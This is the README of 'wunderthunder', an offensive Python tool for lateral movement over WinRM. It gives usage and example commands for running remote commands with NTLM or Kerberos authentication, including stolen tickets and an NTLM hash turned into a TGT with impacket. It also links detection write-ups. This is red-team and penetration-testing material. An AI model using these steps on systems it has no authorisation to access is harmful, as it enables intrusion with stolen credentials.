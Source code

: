 # wunderthunder

A lateral movement tool based on pywinrm. Requires local administrator
privileges and winrm to be enabled on the endpoint you are targeting.

NOTE: Tested with Python 3.11.4 and pywinrm 0.4.3 on MacOS/Linux.

## About

wunderthunder.py - Perform lateral movement via winrm using the pywinrm
library. Currently supports NTLM and Kerberos authentication.

## Installation

Read installation instructions: https://github.com/diyan/pywinrm#installation

## Usage - wunderthunder.py

Please see the tool's help menu below:

```
python wunderthunder.py -h
usage: wunderthunder.py [-h] [-o FILENAME_PREPEND] -u USERNAME -c COMMAND -t TRANSPORT
                        (-p PASSWORD | -P | -k KEYTAB) (-l SERVER | -lf SERVERLIST)

Lateral movement with pyWinRM

options:
  -h, --help            show this help message and exit
  -o FILENAME_PREPEND, --output FILENAME_PREPEND
                        Prepend a string to all output file names
  -p PASSWORD, --password PASSWORD
                        Password to authenticate with
  -P, --prompt          Prompt for the password
  -k KEYTAB, --keytab KEYTAB
                        Absolute/relative path to a keytab file (required if "--transport
                        kerberos")
  -l SERVER, --server SERVER
                        FQDN of server to run commands on
  -lf SERVERLIST, --serverList SERVERLIST
                        File containing FQDN of server(s) to run commands on separated by
                        newline

Server parameters:
  -u USERNAME, --username USERNAME
                        Username to authenticate with in USERNAME@DOMAIN format
  -c COMMAND, --command COMMAND
                        Command to run against winrm endpoint
  -t TRANSPORT, --transport TRANSPORT
                        Transport type, either ntlm/kerberos
```

## Example - wunderthunder.py

Please see some examples below:

### NTLM authentication with clear-text password

```
python wunderthunder.py -u 'USERNAME@DOMAIN' -p 'PASSWORD' -t ntlm -c 'whoami' -l 'HOSTNAME in FQDN format'
```

```
python wunderthunder.py -u 'USERNAME@DOMAIN' -p 'PASSWORD' -t ntlm -c 'whoami' -lf file-containing-hostnames-in-fqdn-format.txt
```

### Kerberos authentication with TGT

Unlike NTLM, Kerberos authentication requires a bit of preparation that needs
to be performed before invoking wunderthunder.py:

- Modify /etc/krb5.conf and set 'default_realm' to FQDN of the domain you are
  attacking.
- (Optional) Modify /etc/hosts to include hosts that have a different Kerberos
  hostname than the domain you are attacking. This is how
  your /etc/host should look like:

```
--SNIP
<DC IP>                 <FQDN of domain you are attacking>
<Kerberos host IP>      <FQDN of host with its correct Kerberos hostname>
--SNIP
```

- Finally, export KRB5CCNAME environment variable with the stolen ticket/keytab
  file e.g:

```
export KRB5CCNAME=kerbtix
```

```
python wunderthunder.py -u 'USERNAME@DOMAIN' -k kerbtix -t kerberos -c 'whoami' -l 'HOSTNAME in FQDN format'
```

```
python wunderthunder.py -u 'USERNAME@DOMAIN' -k kerbtix -t kerberos -c 'whoami' -lf file-containing-hostnames-in-fqdn-format.txt
```

### Kerberos authentication with NTLM hash

You can utilize impacket's getTGT.py to create a Kerberos TGT from NTLM hash:

```
python3 getTGT.py -hashes aad3b435b51404eeaad3b435b51404ee:B65039D1C0359FA797F88FF06296118F domain.local/user

Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Saving ticket in user.ccache
```

Make a copy of that ticket and set KRB5CCNAME environment variable
to the ticket location:

```
cp user.ccache /tmp/krb5cc_0
export KRB5CCNAME=/tmp/krb5cc_0
```

Finally, you can invoke wunderthunder.py as normal.

## Detection

Refer:

- https://redcanary.com/blog/lateral-movement-winrm-wmi/
- https://in.security/2021/05/03/detecting-lateral-movement-via-winrm-using-kql/

## Credits

- [pywinrm](https://github.com/diyan/pywinrm) library: wunderthunder.py is a
  wrapper built around pywinrm. So thank their devs for creating an excellent
  library.
- [deadjakk](https://github.com/deadjakk): For coming up with the name
  'wunderthunder'.

